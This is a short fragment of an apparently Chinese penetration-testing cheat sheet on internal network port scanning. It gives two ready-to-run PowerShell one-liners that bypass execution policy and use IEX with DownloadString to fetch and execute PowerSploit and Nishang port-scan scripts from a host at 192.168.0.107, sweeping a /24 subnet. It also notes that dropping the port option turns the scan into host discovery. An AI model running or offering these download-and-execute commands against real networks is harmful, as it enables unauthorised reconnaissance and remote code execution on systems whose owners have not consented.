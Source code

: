  #### Powersploit
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/powersploit/Recon/Invoke-Portscan.ps1'); Invoke-Portscan -Hosts 192.168.0.0/24 –T 4 -Ports '1-65535' -oA C:\TEMP.txt"
 #### Nishang 
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/nishang/Scan/Invoke-PortScan.ps1'); Invoke-Portscan -StartAddress 192.168.0.1 -EndAddress 192.168.0.254 -ResolveHost -ScanPort"
![image](/assets/Pentest_Note/master/img/320.png)

	去掉scanport就是探测存活
